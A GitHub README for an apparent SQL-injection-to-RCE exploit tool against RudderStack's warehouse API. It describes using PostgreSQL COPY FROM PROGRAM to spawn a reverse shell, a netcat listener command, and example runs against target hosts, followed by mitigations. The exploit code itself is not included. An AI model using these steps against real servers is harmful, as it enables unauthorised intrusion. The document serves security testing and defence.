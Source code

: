 # RudderStack SQLi to RCE Exploit

A tool that exploits SQL injection vulnerabilities in RudderStack to achieve remote code execution (RCE). 

## Overview

This exploit targets a SQL injection vulnerability in RudderStack's Warehouse API endpoint. The vulnerability allows an attacker to execute arbitrary commands on the server by injecting malicious SQL code.

The script:
1. Creates a PostgreSQL-based reverse shell payload
2. Sends a crafted request to the vulnerable API endpoint
3. Executes commands on the target system
4. Returns a reverse shell to the attacker

## Features

- PostgreSQL SQL injection leading to RCE
- Configurable reverse shell parameters
- Support for proxy connections (including BurpSuite)
- Fallback mechanism for direct connections
- Detailed debugging options

## Requirements

- Python 3.6+
- Required Python packages:
  - requests
  - urllib3

## Installation

1. Clone the repository:
```bash
git clone https://github.com/yourusername/rudderstack-sqli.git
cd rudderstack-sqli
```

2. Make the script executable:
```bash
chmod +x rudderstack_sqli.py
```

## Usage

```
usage: rudderstack_sqli.py [-h] [-u URL] -lh LHOST -lp LPORT [-p PROXY]

SQLi to RCE in Rudderstack

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     RudderStack endpoint URL (default: rudderstack:8080/v1/warehouse/pending-events?triggerUpload=true)
  -lh LHOST, --lhost LHOST
                        Your IP address for the reverse shell
  -lp LPORT, --lport LPORT
                        Your port for the reverse shell
  -p PROXY, --proxy PROXY
                        Proxy URL (e.g., 127.0.0.1:8080)
```

## Examples

### Basic usage:

```bash
# Start a listener on your machine first
nc -lvnp 4444

# Then run the exploit
./rudderstack_sqli.py --lhost 192.168.1.100 --lport 4444
```

### Using a custom RudderStack endpoint:

```bash
./rudderstack_sqli.py --url target.com:8080 --lhost 192.168.1.100 --lport 4444
```

### Using with BurpSuite:

```bash
./rudderstack_sqli.py --lhost 192.168.1.100 --lport 4444 --proxy 127.0.0.1:8080
```

## How It Works

1. The script crafts a SQL injection payload that:
   - Creates and uses a temporary table
   - Uses PostgreSQL's `COPY FROM PROGRAM` functionality to execute system commands
   - Establishes a reverse shell connection back to the attacker

2. The payload is sent to the vulnerable endpoint via the `source_id` parameter

3. When processed by the server, the injected SQL commands are executed within the context of the PostgreSQL database, which has sufficient privileges to run system commands

4. The reverse shell connects back to the specified host and port

## Mitigation

To protect against this vulnerability:

1. Apply the latest security patches for RudderStack
2. Implement proper input validation and parameterized queries
3. Limit database user privileges following the principle of least privilege
4. Configure network segmentation to restrict outbound connections from the database server

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. Usage of this tool against systems without explicit permission is illegal and unethical. The author assumes no liability for misuse of this software.

## Author

Aleksa Zaztezalo (May 2025)

## License

This project is licensed under the MIT License - see the LICENSE file for details.